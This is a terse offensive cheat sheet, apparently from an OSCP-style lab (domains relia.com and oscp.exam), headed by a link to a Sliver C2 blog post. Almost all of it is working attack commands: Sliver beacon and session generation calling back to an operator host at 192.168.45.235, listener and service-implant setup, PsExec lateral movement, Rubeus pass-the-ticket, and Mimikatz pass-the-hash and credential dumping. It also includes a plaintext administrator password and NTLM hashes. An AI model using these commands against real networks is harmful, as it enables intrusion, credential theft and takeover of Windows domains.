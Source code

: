 https://www.cybereason.com/blog/sliver-c2-leveraged-by-many-threat-actors

# Proxy
socks5 start -P 1080

# Beacons
generate beacon --http 192.168.45.235:8181 --format exe --skip-symbols

# Listeners
http -L 192.168.45.235 -l 8080

# Sessions
generate --http 192.168.45.235:8080 --format exe --skip-symbols

# Services
profiles new --format service --skip-symbols --mtls 192.168.45.235 win-svc64
psexec -d Description -s ServiceName -p win-svc64 LOGIN.relia.com
psexec -d Description -s testo -p win-svc64 DC02.relia.com

# Impersonate with credentials
make-token -u Administrator -p vau!XCKjNQBv2$ -d relia.com -T LOGON_INTERACTIVE

# PassTheHash (not yet ready)
.\Rubeus asktgt /user:dan /rc4:4b22394fc907bd7a74d1af6cc9aca348 /nowrap
.\Rubeus asktgs /ticket:sdfsdf= /service:cifs/dc02.relia.com /ptt

.\Rubeus.exe asktgt /domain:oscp.exam /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
.\PsExec.exe -accepteula \\ms02.oscp.exam cmd


.\Rubeus.exe asktgt /domain:relia.com /user:dan /rc4:4b22394fc907bd7a74d1af6cc9aca348 /ptt
.\PsExec.exe -accepteula \\\\DC02.relia.com cmd
sharpmapexec ntlm smb /user:dan /ntlm:4b22394fc907bd7a74d1af6cc9aca348 /domain:relia.com /computername:DC02

mimikatz -c '"sekurlsa::pth /user:dan /domain:relia.com /ntlm:4b22394fc907bd7a74d1af6cc9aca348 /run:powershell.exe"'
mimikatz "privilege::debug" "sekurlsa::pth /user:dan /domain:relia.com /ntlm:4b22394fc907bd7a74d1af6cc9aca348"

mimikatz.exe "privilege::debug" "sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:HASH /run:cmd.exe"


execute -o mimikatz "privilege::debug" "sekurlsa::pth /user:dan /domain:relia.com /ntlm:4b22394fc907bd7a74d1af6cc9aca348 /run:cmd.exe"
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "sekurlsa::pth /user:dan /domain:relia.com /ntlm:4b22394fc907bd7a74d1af6cc9aca348" "token::elevate /domain:relia.com /user:dan"

